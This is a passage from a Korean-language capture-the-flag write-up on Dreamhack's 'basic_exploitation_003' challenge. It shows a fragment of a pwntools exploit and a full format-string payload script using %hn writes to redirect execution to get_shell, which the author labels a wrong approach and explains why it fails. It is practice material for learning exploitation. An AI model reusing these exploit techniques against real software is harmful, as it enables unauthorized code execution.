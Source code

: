 ```py
payload += p32(get_shell)

p.send(payload)
p.interactive()
```

<br>

### 틀린 풀이 방법 1. 

```py
from pwn import *

context.arch = "i386"

p = remote("host3.dreamhack.games", 12200)
elf = ELF("./basic_exploitation_003")

get_shell = elf.symbols['get_shell']
# get_shell = 0x8048669
# 0x0804 = 2052
# 0x8669 = 34409

return_addr = 0xffffd01c

# 이렇게 해버리면 stack_buf에 공백 2045개 + 32357개가 쌓여버림
# 메모리에 저 string이 입력되게 해야함
# 2052 - 7 = 2045
# 34409 - 2052 = 32357
payload = b"%2045c%7$hn"    # 11bytes
payload += b"%3235c%8$hn"  # 12bytes
payload += b"a"             # 여기까지 24bytes
payload += p32(return_addr + 2)
payload += p32(return_addr)

p.send(payload)
p.interactive()
```

처음에 `sprintf`가 포맷스트링으로 출력된 문자열이 아니라 포맷스트링 자체를 저장하는줄 알고, `heap_buf`에 포맷스트링을 입력해서 `stack_buf`에 입력해준 후, `printf("ECHO : %s\n", stack_buf);`를 통해 FSB 공격을 하려고 헀다. (사실 위에서 설명했듯이 `printf`에서는 FSB 공격도 안먹히긴 한다.)

따라서, `return_address`가 저장된 `esp`의 위치를 구해서 `[esp + 0x__]`에 대입 후, 그 주소에 너비 지정자를 통해 `get_shell`만큼의 주소를 대입하려고 했다.

근데 이렇게 되버리면, `sprintf`의 특성 때문에 `stack_buf`에 `"%2045c"`라는 문자열이 입력되는게 아니라 `stack_buf`에 차례대로 `2045`개의 공백과 `32357`개의 공백이 입력되버려서 `stack_buf`에 포맷스트링 자체가 아닌 포맷스트링으로 출력된 문자열이 들어가게 되버린다.

그래서 `%%2045c`로 `stack_buf`에 `%2045c`를 입력해주더라도, 뒤에서 `printf("ECHO : %s\n", stack_buf);`를 통해 포맷스트링 공격이 불가능해서 RAO가 통하지 않으므로 논리 자체가 틀린다.

**`printf("ECHO : %s\n", stack_buf);` 여기서는 `stack_buf`가 `%s`로 바뀌는 과정에서 포맷 스트링으로 해석되는게 아니라 문자열 그 자체로 해석되서 여기서도 `2045`개의 공백이 아닌 `%2045c` 자체가 출력되기 때문이다.**
